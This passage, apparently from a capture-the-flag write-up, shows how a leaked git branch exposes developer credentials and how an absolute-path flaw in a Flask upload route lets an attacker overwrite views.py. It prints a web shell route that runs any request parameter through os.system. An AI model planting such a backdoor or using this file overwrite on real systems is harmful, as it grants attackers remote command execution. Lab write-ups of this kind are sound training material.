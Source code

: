 We can see that there are 2 branches, dev and public. public doesn't seem to have any updates, but when we switch the branch to dev we can see that there is an update. Looking more into it, We come across these credentials `dev01:Soulless_Developer#2022`.

Looking into the source code, we can see how the file gets downloaded in `views.py`

```python
...

@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')

...
```

### Exploit

os.path.join()[https://docs.python.org/3/library/os.path.html#os.path.join] tells us that if an absolute path is mentioned, then the previous components are thrown away and only the absolute path is used. `views.py` also contains the app routes, this means that we could just add another route for RCE.

```python
@app.route('/exec')
def command():
	cmd = request.args.get('cmd')
	os.system(f"{cmd}")
	return f"{cmd}"
```

Upload the new views.py to `/upcloud` and change the filename to `/app/app/views.py`:

![Image](images/3.png)
